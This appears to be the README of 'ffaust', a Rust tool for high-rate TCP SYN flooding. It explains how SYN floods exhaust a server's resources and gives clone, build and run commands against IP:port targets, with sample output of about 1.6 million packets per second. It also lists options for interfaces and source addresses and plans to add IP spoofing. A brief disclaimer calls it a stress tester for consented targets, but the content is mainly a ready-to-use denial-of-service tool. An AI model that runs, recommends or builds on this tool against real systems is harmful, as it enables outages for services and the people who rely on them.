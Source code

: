 # MLPS "FFaust"

(Multiple Launch Packet System)

```
   ____       ________   ____                 __ 
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_  
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/  
```

High-performance TCP SYN flooding tool. `ffaust` manipulates packets directly on Ethernet layer and achieves up to 2.5M pps (packets per second) on a single machine.

## Disclaimer

MLPS "FFaust" is a stress testing tool and it is not to be used on targets that you do not have explicit consent to attack.

## Attack vector

A SYN flood attack is a common form of a denial of service attack in which an attacker sends a sequence of SYN requests to the target system (can be a router, firewall, Intrusion Prevention Systems (IPS), etc.) in order to consume its resources, preventing legitimate clients from establishing a regular connection. This DOS attack exhausts a server's memory & CPU and not necessarily bandwidth (which other attacks like ICMP/Ping Flooding do).

At a high level, how this works is that we craft our own TCP SYN packets and then completely flood a server with them. When we send a SYN packet, the server will respond with a SYN-ACK and allocate some memory in the kernel buffer in an attempt to set up a new connection with us (at this point the connection is "half open" which is why the SYN Flooding Attack is also known as the "Half Open Attack"). The half open connections can be seen on the server side with netstat -nt4 | grep "SYN_RECV". By sending multiple SYNs per second, we cantry to get the server to exhaust it's memory and thus make it to be unable to serve legitimate clients.

## Install

To compile from source:

```shell
# git clone https://github.com/0xffiber/ffaust.git
# cd ffaust
# cargo build --release
```

## Usage

Run the tool:

```shell
# target/release/ffaust 169.172.1.1:80 10.0.1.5:443
   ____       ________   ____                 __
  / __ \_  __/ __/ __/  / __/___ ___  _______/ /_
 / / / / |/_/ /_/ /_   / /_/ __ `/ / / / ___/ __/
/ /_/ />  </ __/ __/  / __/ /_/ / /_/ (__  ) /_
\____/_/|_/_/ /_/    /_/  \__,_/\__,_/____/\__/

Preparing config... DONE
Source:
  iface eth0
  inet 10.0.0.6
  gw 10.0.0.1
  ether 00:00:00:9a:5f:55
  dest 12:34:56:00:00:00

==> 1s sent: 1,636,753 (1,636,753 pps) traffic: 103.02 MiB (103.02 MiB/s)
==> 2s sent: 3,333,556 (1,666,778 pps) traffic: 209.82 MiB (104.91 MiB/s)
==> 3s sent: 5,012,894 (1,670,964 pps) traffic: 315.52 MiB (105.17 MiB/s)
==> 4s sent: 6,672,925 (1,668,231 pps) traffic: 420.01 MiB (105.00 MiB/s)
==> 5s sent: 8,397,134 (1,679,426 pps) traffic: 528.54 MiB (105.71 MiB/s)
```

Full list of options:

```shell
ffaust 0.1.0

USAGE:
    ffaust [OPTIONS] [TARGET]...

ARGS:
    <TARGET>...    ip:port pair to stress out

OPTIONS:
    -G, --gateway-mac <GATEWAY_MAC>    Specify gateway MAC address
    -h, --help                         Print help information
    -i, --interface <INTERFACE>        Specify network interface to use
    -s, --source-port <SOURCE_PORT>    Source port(s) for packets
    -S, --source-ip <SOURCE_IP>        Source address(es) for packets
    -V, --version                      Print version information
```

## Implementation Notes

The tool makes an attempt to identify default interface to run the attack. If the default one could not be detected, please make sure to pass interface name with arguments.

In you have multiple interfaces with external connectivity, you can specify all of them (comma-separated).

Destination MAC is resolved once before launching the attack (using ARP protocol).

Full ethernet packet for each (source -> destination) pair is generated only once. Each of the following packets is created by mutating only a few bytes in the payload (and recomputing TCP header checksum).

## TODO

The tool is under active development:

- [ ] Proper CLI args, advanced configuration for interface(s), IP ranges, etc
- [ ] Run multiple threads (test if this is going to be necessary againsts single IP address)
- [ ] Logger to print progress
- [ ] Support source IP spoofing (with flag)
- [ ] Multiple targets (ip/port pairs), option to read config from stdin, resolve for hostnames
- [ ] Settings for number of worker threads & total execution time
